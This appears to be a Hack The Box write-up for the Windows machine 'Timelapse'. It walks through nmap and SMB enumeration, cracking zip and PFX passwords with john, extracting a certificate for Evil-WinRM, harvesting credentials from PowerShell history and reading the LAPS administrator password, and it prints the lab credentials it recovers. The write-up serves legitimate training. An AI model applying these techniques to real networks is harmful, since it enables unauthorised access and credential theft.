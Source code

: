 ## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP)

### Recon
- **Nmap Scan:**
  - Found 18 open ports including: SMB (445), [Kerberos](Kerberos) (88), [LDAP](LDAP) (389), and [WinRM](WinRM) (5986)
  - Domain: `timelapse.htb`
  - Hostname: `dc01.timelapse.htb`

```bash
nmap -p- --min-rate 10000 10.10.11.152
nmap -p <interesting_ports> -sCV 10.10.11.152
```

- **/etc/hosts Addition:**
```
10.10.11.152 timelapse.htb dc01.timelapse.htb
```

### [SMB](SMB) Enumeration
- SMB anonymous login was successful:
```bash
smbclient -L //dc01.timelapse.htb -N
```
- Notable share: `Shares`
  - Found file: `winrm_backup.zip`
  - Found LAPS documentation in `HelpDesk`

### Shell as `legacyy`
- **Extracted `winrm_backup.zip` → `legacyy_dev_auth.pfx`**
- **Cracked zip password using john:** `supremelegacy`
- **Cracked PFX password using pfx2john + john:** `thuglegacy`
- **Extracted cert & private key:**
```bash
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out key-enc.pem
openssl rsa -in key-enc.pem -out legacyy_dev_auth.key
openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out legacyy_dev_auth.crt
```
- **Connected using Evil-WinRM:**
```bash
evil-winrm -i timelapse.htb -S -c legacyy_dev_auth.crt -k legacyy_dev_auth.key
```
- Grabbed `user.txt`

### Shell as `svc_deploy`
- **Found PowerShell history file:**
```powershell
C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```
- **Credentials found:**
  - `svc_deploy:E3R$Q62^12p7PLlC%KWaxuaV`
- **Connected with Evil-WinRM:**
```bash
evil-winrm -i timelapse.htb -S -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV'
```

### Shell as Administrator
- `svc_deploy` is a member of the `LAPS_Readers` group.
- Queried LAPS for DC01 local admin password:
```powershell
Get-ADComputer DC01 -property 'ms-mcs-admpwd'
```
- Found password: `uM[3va(s870g6Y]9i]6tMu{j`
- Connected as Administrator:
```bash
evil-winrm -i timelapse.htb -S -u administrator -p 'uM[3va(s870g6Y]9i]6tMu{j'
```

### Root.txt
- `root.txt` not in Administrator desktop.
- Found under `C:\Users\TRX\Desktop\root.txt`

### Notes
- TRX account exists for HTB flag rotation purposes due to dynamic nature of LAPS.
